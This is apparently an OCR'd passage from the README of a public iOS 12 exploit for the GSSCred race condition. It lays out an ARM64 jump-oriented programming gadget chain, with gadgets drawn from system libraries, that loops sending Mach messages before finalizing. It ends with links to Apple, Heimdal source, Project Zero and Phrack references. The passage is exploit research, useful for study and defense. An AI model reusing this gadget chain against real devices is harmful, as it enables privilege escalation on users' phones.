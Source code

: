 	MOV_X13_X1__BR_X8 (CloudKitDaemon, MediaToolbox):
			mov x13, x1
			br x8
		x13 = NEXT_REMOTE_AND_LOCAL_PORT - MAX_REMOTE_AND_LOCAL_PORT
		pc = LDP_X3_X2_X2__BR_X3
		pc = MOV_X9_X13__BR_X8

	MOV_X9_X13__BR_X8 (AirPlaySender, SafariShared):
			mov x9, x13
			br x8
		x9 = NEXT_REMOTE_AND_LOCAL_PORT - MAX_REMOTE_AND_LOCAL_PORT
		pc = LDP_X3_X2_X2__BR_X3
		pc = MOV_X11_X24__BR_X8

	MOV_X11_X24__BR_X8 (AirPlayReceiver, CloudKitDaemon):
			mov x11, x24
			br x8
		x11 = JOP_STACK_SEND_MACH_MESSAGE_AND_LOOP
		pc = LDP_X3_X2_X2__BR_X3
		pc = CMP_X9_0__CSEL_X1_X10_X9_EQ__BLR_X8

	;; Compare x9 (NEXT_REMOTE_AND_LOCAL_PORT - MAX_REMOTE_AND_LOCAL_PORT) to 0. If
	;; x9 is less than 0, then NEXT_REMOTE_AND_LOCAL_PORT is less than
	;; MAX_REMOTE_AND_LOCAL_PORT, and so we should send the message and loop again.
	;; Otherwise, we should exit the loop.

	CMP_X9_0__CSEL_X1_X10_X9_EQ__BLR_X8 (TextInputCore):
			cmp x9, #0
			csel x1, x10, x9, eq
			blr x8
		nzcv = CMP(NEXT_REMOTE_AND_LOCAL_PORT - MAX_REMOTE_AND_LOCAL_PORT, 0)
		x1 = CLOBBER
		pc = LDP_X3_X2_X2__BR_X3
		pc = MOV_X9_X22__BR_X8

	MOV_X9_X22__BR_X8 (MediaToolbox, StoreServices):
			mov x9, x22
			br x8
		x9 = JOP_STACK_FINALIZE
		pc = LDP_X3_X2_X2__BR_X3
		pc = CSEL_X2_X11_X9_LT__BLR_X8

	CSEL_X2_X11_X9_LT__BLR_X8 (AppleCVA, libLLVM):
			csel x2, x11, x9, lt
			blr x8
		if (NEXT_REMOTE_AND_LOCAL_PORT < MAX_REMOTE_AND_LOCAL_PORT)
			x2 = JOP_STACK_SEND_MACH_MESSAGE_AND_LOOP
		else
			x2 = JOP_STACK_FINALIZE
		pc = LDP_X3_X2_X2__BR_X3
		if (NEXT_REMOTE_AND_LOCAL_PORT < MAX_REMOTE_AND_LOCAL_PORT)
			pc = JOP_STACK_SEND_MACH_MESSAGE_AND_LOOP[0]
		else
			pc = JOP_STACK_FINALIZE[0]


[iOS 12]: https://support.apple.com/en-us/HT209106
[gsscred-race]: https://github.com/bazad/gsscred-race
[Heimdal]: https://opensource.apple.com/source/Heimdal/Heimdal-520.30.1/
[source]: https://opensource.apple.com/source/Heimdal/Heimdal-520.30.1/lib/heimcred/server.m.auto.html
[triple_fetch]: https://bugs.chromium.org/p/project-zero/issues/detail?id=1247
[Modern Objective-C Exploitation Techniques]: http://phrack.org/issues/69/9.html